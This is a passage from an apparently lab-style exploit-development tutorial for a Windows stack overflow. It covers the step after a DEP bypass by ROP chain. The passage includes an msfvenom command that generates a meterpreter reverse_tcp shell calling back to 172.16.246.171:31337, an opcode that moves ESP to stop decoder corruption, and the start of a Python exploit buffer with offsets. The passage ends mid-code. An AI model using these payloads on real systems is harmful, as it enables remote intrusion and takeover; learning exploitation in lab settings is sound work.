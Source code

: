 **VICTORY! :)**


Shellcode
---------

We have successfully bypassed DEP and made stack executable again! Now we can simply put a shellcode of our choice and get that shell!

Doing a bit of maths, we can easily calculate that the maximum size of the shellcode can be 1260 bytes, which is *A LOT* for a shellcode - and more than enough to fit meterpreter! Let's go ahead and generate a payload we'll use:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.246.171 LPORT=31337 -f python -b '\x00\x3b' | sed 's/buf/shellcode/g'
```

And paste it in right after the ROP chain. Note that the last instruction in our ROP chain is `PUSHAD; RETN`, so the next instruction to be executed will be simply the next instruction after this one - that's why we're putting our shellcode immediatelly after.

Also, there's a small 'trick' to keep in mind. Because of the way meterpreter decoders work, during the decoding process meterpreter needs to find its own address in memory. It is achieved by using `FSTENV` instruction, which stores floating point environment on the stack. Because ESP points somewhere in our shellcode, `FSTENV` writes some additional data onto the stack, what corrupts our shellcode!

One simple way around it is to simply move ESP all the way "up" (towards lower memory addresses), far away from our shellcode so it doesn't get corrupted. How far to move? Generally size of the shellcode would do. I chose 1500, just to be on the safe side.

Generate relevant opcode (remember about the bad chars that we should avoid!):

```
root@kali2:~# /usr/share/metasploit-framework/tools/exploit/metasm_shell.rb
type "exit" or "quit" to quit
use ";" or "\n" for newline
type "file <file>" to parse a GAS assembler source file

metasm > add esp,-1500
"\x81\xc4\x24\xfa\xff\xff"
```

And add it as a first instruction in the shellcode. The buffer should look something like this:

{% codeblock lang:python %}
# Offsets
rop_offset = 2455
max_size = 5000
seh_offset = 4059
eax_offset = 4183


# move ESP out of the way so the shellcode doesn't corrupt itself during execution
# metasm > add esp,-1500
shellcode =  "\x81\xc4\x24\xfa\xff\xff"
